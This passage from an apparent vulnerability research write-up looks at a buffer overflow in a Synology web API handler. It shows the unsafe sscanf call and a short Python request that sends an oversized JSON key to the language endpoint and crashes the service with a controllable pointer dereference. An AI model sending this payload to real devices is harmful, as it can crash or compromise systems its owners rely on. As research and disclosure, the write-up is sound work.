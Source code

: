 We know that the crash is in this line:
```c
_isoc99_sscanf((char *)json_key, "%s %s", buf1, buf2);
```

So, we can try a payload like: {"AAAAAA...A BBBB"} to trigger the vulnerability. 

Here is what I sent:

```py
  payload = '{"' + "A" * 0xb0 + " " + "B" * 0xb0 + '": "BBBB"}'
  r = requests.post(f"{HOST}/syno-api/security/info/language", headers={'Content-Type':'application/json'}, data=payload)
```
Sending this results in a crash!

![Alt text](image-12.png)

This crash looks kinda weird, because we didn't overwrote the return pointer and just crash because of some weird pointer dereference (we can control it). 

It crashes here:

![Alt text](image-13.png)

